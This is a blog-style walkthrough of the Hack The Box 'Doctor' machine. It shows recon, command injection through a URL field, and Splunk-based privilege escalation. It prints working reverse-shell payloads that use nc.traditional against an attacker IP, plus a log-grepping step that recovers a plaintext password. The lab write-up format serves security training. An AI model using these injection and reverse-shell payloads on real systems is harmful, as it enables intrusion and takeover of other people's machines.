 ```yaml
---
layout: post
title:  "Hack The Box - Doctor Writeup"
date:   2021-02-06 06:00:00
categories: "htb"
author: Ryan
image: 
  path: /assets/img/htb/HTB-Doctor/Header.png
---
```


*[Hack The Box](https://hackthebox.eu) is an online platform allowing you to test your penetration testing skills and exchange ideas and methodologies with thousands of people in the security field.*  
![Header](../images/HTB-Doctor/Header.png)

Doctor is an Easy level linux machine. Based on the creator and community statistics, this box is fairly balanced over the type of approach we'll need to take, leaning slightly more towards the "CVE" and "Real" categories.  
![Statistics](../images/HTB-Doctor/Statistics.png)

## Information Gathering

#### Nmap:
By scanning the target IP with Nmap, we're able to find what ports are open (`-p`), while fingerprinting the services running and their versions (`-sV`). We're also running the default set of scripts (`-sC`), which can help find additional information and automate some of our initial steps. Once the scan is completed, nmap will write the results to our Extracts folder (`-oA`)  
`>> nmap -p22,80,8089 -sV -sC -oA Extracts/Doctor 10.10.10.209`  
![Nmap](../images/HTB-Doctor/nmap.png)

* **Port 22 - SSH**: Pretty standard port to see open on linux boxes, we can try to leverage this later on if we find credentials or private key.
* **Port 80 - HTTP**: A basic websever hosting what appears to be a customer-facing website advertising a doctor and his services.
* **Port 8089 - Splunkd**: [Splunk](https://www.splunk.com/), is a software platform used to search, analyze, and visualize data. Commonly used for event logs.

### Customer Website
Navigating to [10.10.10.209](10.10.10.209) allows us to take a look around the website and try to find any clues that may lead to some sort of login or feature we can leverage. One of the first peices of information we find is the email address for `info@doctors.htb`. Let's get that added to our hosts file and check it out.  
![New Host](../images/HTB-Doctor/Recon_Email.png)

### Doctors Secure Messaging
Navigating to the [doctors.htb](doctors.htb) site, we're shown a login screen for what appears to be some sort of internal messaging system. While we're not able to log in with any credentials, we do have the ability to create a new account lasting for 20 minutes.  
![Account Creation](../images/HTB-Doctor/Recon_Account.png)

One of the main features in this area of the site is the ability to post messages. After testing various types of content in the message body, we're shown the following error message:  
![URL Validation](../images/HTB-Doctor/Recon_URL.png)

Without observing any client-side javascript conducting this URL validation, it appears to be coming from the server. Let's try to manipulate it.

## Foothold
While [https://www.google.com](https://www.google.com) looks completely legitimate to us, HackTheBox might be blocking it because it's an external resource. Let's try using our own IP in the URL. we can set up out listener with:  
`>> nc -lvnp 1234`

Request:  
![Local URL](../images/HTB-Doctor/Foothold_1_URL.png)

Response:  
![Local URL](../images/HTB-Doctor/Foothold_1_URL2.png)

Interstingly, we recieve the same invalid error message as before, but by checking our listener, we see the target box made a call to our machine using `curl`.

### Testing for Injection
As the box's "Doctor" name and logo suggests, we should test out the possibility for injection. If the application is passing our URL directly into curl, it could be possible to use [Command Substitution](https://tldp.org/LDP/abs/html/commandsub.html) to run additional commands. Let's try adding the output of a simple `whoami` to the end of our URL to verify:  

Request:  
![Local URL](../images/HTB-Doctor/Foothold_1_Injection.png)

Response:  
![Local URL](../images/HTB-Doctor/Foothold_1_Injection2.png)

We're succesfully able to inject additional commands into the url verification. Looks like we're running as the `web` user.

### Weaponizing Our Payload
While we have the ability to run commands through the application, we're able to step up our access by starting a reverse shell. After checking for the tools available to us, we're able to accomplish this through [nc.traditional](https://www.commandlinux.com/man-page/man1/nc.traditional.1.html) and the [Internal Field Separator](https://en.wikipedia.org/wiki/Input_Field_Separators) `$IFS`. 

Listener:  
`>> nc -lvnp 8888`  

Payload:  
`http://10.10.14.2:1234/$(nc.traditional$IFS'10.10.14.2'$IFS'8888'$IFS-e$IFS'/bin/sh')`  

![Reverse Shell](../images/HTB-Doctor/Foothold_1_ReverseShell.png)

## Lateral Movement
Our first step now that we've got a direct connection into the machine is to upgrade the shell.  
![Upgrade Shell](../images/HTB-Doctor/Lateral_UpgradeShell.png)

Looking inside our `web` user's home directory, we see only a couple files related to the blog, but no flag. It appears we'll need to pivot into the user `shaun` to access the first flag.

### Enumeration
As we step through the blog files, we come across the database, `site.db`. Dumping the contents reveals that we'll want to find another way to get access, as the password is protected by a very strong hashing algorithm, bCrypt.  
![Site Databse](../images/HTB-Doctor/Lateral_Database.png)

While we may be unable to retrieve the user's password from the database, it could be worth looking through the application logs to see if we can find anything from before the credentials are hashed. Being a member of the `adm` group, this should be possible.  
`>> groups`  
![User Group](../images/HTB-Doctor/Lateral_Groups.png)  
`>> grep -i password $(find /var/log/apache2 -type f)`  
![Apache Logs](../images/HTB-Doctor/Lateral_Logs.png)

It's pretty common for user's to accidentally type their password into the wrong field. Since we can see this doesn't fit an email pattern, we can try passing `Guitar123` around and see if it gets us anywhere.  
![Shuan User](../images/HTB-Doctor/Lateral_Shaun.png)  

`shaun:Guitar123`

### User Flag
![User Flag](../images/HTB-Doctor/User_Flag.png)  

## Privilege Escalation
Early on, we discovered the existence of a Splunk service running on port 8089. Researching that service led to an interesting Github repository for a tool called [SplunkWhisperer2](https://github.com/cnotin/SplunkWhisperer2). Their primary focus is on "Local privilege escalation, or remote code execution, through Splunk Universal Forwarder (UF) misconfigurations". Let's try getting another reverse shell going through Splunk using shaun's credentials.  

Listener:  
`>> nc -lvnp 9999`

Payload:  
`>> python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --port 8089 --username shaun --password Guitar123 --lhost 10.10.14.2 --lport 8888 --payload 'nc.traditional 10.10.14.28 9999 -e /bin/sh'`

![PrivEsc Splunk](../images/HTB-Doctor/PrivEsc_Splunk.png)  
![PrivEsc Root](../images/HTB-Doctor/PrivEsc_Root.png)  

### Root Flag
![Root Flag](../images/HTB-Doctor/Root_Flag.png) 
